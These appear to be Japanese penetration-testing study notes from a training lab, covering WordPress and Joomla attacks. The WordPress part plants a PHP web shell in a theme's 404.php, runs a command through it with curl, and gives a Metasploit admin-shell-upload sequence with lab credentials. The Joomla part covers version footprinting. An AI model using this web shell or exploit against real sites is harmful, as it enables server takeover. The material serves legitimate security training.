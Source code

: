 404.php ファイルを編集して以下のコードを追加
- これは、0 というGETパラメータを介して任意のシステムコマンドを実行可能にする
```php
system($_GET[0]);
```

404.phpにアクセスしてコマンドを作る
```shell-session
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

#### Metasploit
- [wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/)でもRCEできる
```sh
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload 
set rhosts blog.inlanefreight.local
set username john
set password firebird1
set lhost 10.10.14.15 
set rhost 10.129.42.195  
set VHOST blog.inlanefreight.local
show options
exploit
```


# Joomla
- Joomla は 2005 年 8 月にリリースされた、無料でオープンソースの CMS
	- ディスカッションフォーラム、フォトギャラリー、eコマース、ユーザーベースのコミュニティなどに利用される
	- PHP で書かれており、バックエンドには MySQL を使用
- Joomla は CMS 市場の 3.5% のシェアを持っている
- Joomla・PHP・データベースのバージョンや、インストールされているサーバー OS の内訳を公開 API 経由で問い合わせることができる
## 発見とフットプリンティング
Joomlaを使っていることの確認
```shell-session
curl -s http://dev.inlanefreight.local/ | grep Joomla

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

Joomla サイトの robots.txt ファイルの、disableからログイン・adminページのヒントを得られる
- また、Joomla自体のバージョンも
```shell-session
curl -s http://dev.inlanefreight.local/README.txt | head -n 5

1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
